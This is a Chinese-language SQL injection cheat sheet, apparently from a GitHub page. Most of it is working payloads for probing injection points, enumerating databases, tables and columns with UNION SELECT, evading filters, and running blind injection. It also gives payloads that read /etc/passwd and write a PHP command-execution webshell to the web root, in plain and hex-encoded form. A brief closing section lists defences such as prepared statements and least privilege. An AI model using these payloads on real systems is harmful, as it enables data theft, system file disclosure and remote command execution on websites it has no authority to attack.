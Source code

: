 # SQL注入关键词手册

## 1. 基础探测关键词

### 1.1 单引号测试
```sql
-- 测试是否存在注入点
?id=1' --+
?id=1' and '1'='1
```

### 1.2 注释符
```sql
-- MySQL注释
?id=1' --+
?id=1' #

-- MSSQL注释
?id=1' --

-- Oracle注释
?id=1' --
```

### 1.3 逻辑测试
```sql
-- 数字型测试
?id=1 and 1=1
?id=1 and 1=2

-- 字符型测试
?id=1' and '1'='1
?id=1' and '1'='2
```

## 2. 信息收集关键词

### 2.1 ORDER BY
```sql
-- 确定列数
?id=1' order by 3--+
?id=1' order by 4--+  -- 如果报错，说明只有3列
```

### 2.2 UNION SELECT
```sql
-- 获取数据库信息
?id=-1' union select 1,2,3--+
?id=-1' union select 1,database(),version()--+
```

### 2.3 GROUP_CONCAT
```sql
-- 获取所有表名
?id=-1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database()--+

-- 获取所有列名
?id=-1' union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users'--+
```

## 3. 常用函数

### 3.1 版本信息
```sql
-- 获取版本信息
?id=1' and @@version like '5%'--+
?id=1' and version() like '5%'--+
```

### 3.2 数据库信息
```sql
-- 获取当前数据库
?id=1' and database()='security'--+
?id=1' and @@datadir='/var/lib/mysql/'--+
```

### 3.3 用户信息
```sql
-- 获取当前用户
?id=1' and user()='root@localhost'--+
?id=1' and @@hostname='webserver'--+
```

## 4. 绕过过滤技巧

### 4.1 大小写混合
```sql
-- 绕过大小写过滤
?id=1' UniOn SeLeCt 1,2,3--+
?id=1' sElEcT * FrOm users--+
```

### 4.2 内联注释
```sql
-- 使用内联注释绕过
?id=1' /*!UNION*/ SELECT 1,2,3--+
?id=1' /*!50000UNION*/ SELECT 1,2,3--+
```

### 4.3 十六进制编码
```sql
-- 使用十六进制绕过
?id=1' union select 1,0x61646d696e,3--+
?id=1' and username=0x61646d696e--+
```

## 5. 盲注关键词

### 5.1 时间盲注
```sql
-- 基于时间的盲注
?id=1' and if(1=1,sleep(5),0)--+
?id=1' and if(ascii(substr(database(),1,1))>100,sleep(5),0)--+
```

### 5.2 布尔盲注
```sql
-- 基于布尔的盲注
?id=1' and length(database())=8--+
?id=1' and ascii(substr(database(),1,1))>100--+
```

## 6. 文件操作关键词

### 6.1 读取文件
```sql
-- 读取系统文件
?id=1' union select 1,load_file('/etc/passwd'),3--+
?id=1' union select 1,load_file(0x2f6574632f706173737764),3--+
```

### 6.2 写入文件
```sql
-- 写入Webshell
?id=1' union select 1,'<?php system($_GET[cmd]);?>',3 into outfile '/var/www/shell.php'--+
?id=1' union select 1,0x3c3f7068702073797374656d28245f4745545b636d645d293b3f3e,3 into outfile '/var/www/shell.php'--+
```

## 7. 防御建议

1. 使用预处理语句
```php
$stmt = $conn->prepare("SELECT * FROM users WHERE id = ?");
$stmt->bind_param("i", $id);
$stmt->execute();
```

2. 输入验证和过滤
```php
if (!is_numeric($id)) {
    die("Invalid input");
}
```

3. 最小化数据库权限
```sql
GRANT SELECT ON database.* TO 'webuser'@'localhost';
```

4. 错误信息处理
```php
error_reporting(0);
ini_set('display_errors', 0);
```

5. 使用WAF规则
```nginx
location / {
    ModSecurityEnabled on;
    ModSecurityConfig modsecurity.conf;
}
```